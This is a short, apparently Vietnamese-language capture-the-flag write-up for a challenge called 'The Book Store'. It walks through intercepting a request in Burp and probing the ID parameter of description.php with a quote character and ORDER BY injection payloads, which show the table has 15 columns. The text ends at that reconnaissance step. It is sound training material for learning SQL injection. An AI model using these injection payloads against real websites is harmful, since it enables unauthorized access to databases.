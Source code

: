 # The Book Store

1.	Des:
-	Flag được giấu ở đường dẫn /flagxxx.txt 
-	Bài này là một bài SQLi 

2.	Solution:
-	Ta chọn một sản phẩm bất kì rồi vào burp chuyển request chứa sản phẩm vừa chọn đến Repeater

![1](./images/1.png)

-	Ta thử nhập một kí tự đặc biệt như ‘ hoặc “ để xem có lỗi hay không
payload: GET /description.php?ID=NEW-2'&category=new HTTP/1.2

![2](./images/2.png) ta đoán đây là một lỗ hổng sql!

-	Xác định các cột trong db bằng order by 
payload: ID=NEW-2' ORDER BY 16-- -  

![3](./images/3.png)

payload: ID=NEW-2' ORDER BY 15-- -  
![4](./images/4.png) Vậy có 15 cột 

